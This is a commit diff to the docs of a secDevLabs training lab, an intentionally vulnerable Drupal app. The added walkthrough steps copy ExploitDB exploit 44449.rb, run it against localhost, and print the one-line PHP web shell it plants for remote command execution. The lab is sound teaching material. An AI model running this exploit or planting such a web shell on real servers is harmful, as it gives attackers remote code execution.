

[DOCS] Fix images to now include localhost addr

Changed region(s): [[0.0, 0.0, 1.0, 0.3438], [0.1864, 0.3438, 0.2175, 0.375]]

diff --git a/owasp-top10-2017-apps/a9/cimentech/docs/ATTACK.md b/owasp-top10-2017-apps/a9/cimentech/docs/ATTACK.md
@@ -8,7 +8,7 @@ If you don't know [secDevLabs] or this [intended vulnerable web application][2] 
 
 It's possible to reach the server's web application from the standard HTTP port 80, as shown by the image below:
 
-<img src="attack1.gif" align="center"/>
+<img src="attack1.png" align="center"/>
 
 Afterwards, by having a look at the `/robots.txt` file, it's possible to find the `CHANGELOG.txt` file in the `Disallow` field, as depicted by the image below:
 
@@ -34,17 +34,29 @@ Then simply search for the version of the CMS found:
 searchsploit drupal 7.
 ```
 
+If you are using OSX, this command would help you make a copy of the exploit to your /tmp folder:
+
+```
+cp /usr/local/opt/exploitdb/share/exploit-database/exploits/php/webapps/44449.rb /tmp
+```
+
 ## 🔥
 
 Running the malicious Ruby code, we have evidence that a remote code execution is possible on the web server, using the following commands as shown below:
 
 ```sh
-ruby 44449.rb http://localhost
+ruby /tmp/44449.rb http://localhost
 ```
 
 <img src="attack5.png" align="center"/>
 
-Following on the last step, a shell is created by the malicious code on which we can execute commands, just like `whoami`, as shown by the image:
+The exploit works by adding into the server a malicious `s.php` wich allows remote code execution on it via following malicious content: 
+
+```php
+<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
+```
+
+Using the exploit's "fake shell", we can type a command just like `whoami` to verify that we indeed have a RCE on the server, as shown by the image:
 
 <img src="attack6.png" align="center"/>
 

diff --git a/owasp-top10-2017-apps/a9/cimentech/README.md b/owasp-top10-2017-apps/a9/cimentech/README.md
@@ -2,7 +2,7 @@
  > This is a simple web application built with Drupal that contains an example of a component with a known vulnerabilty.
 
 <p align="center">
- <img width="560" height="400" src="docs/attack1.gif">
+ <img width="560" height="" src="docs/attack1.png">
 </p>
 
 ## What does it mean to use a component with known vulnerabilities?
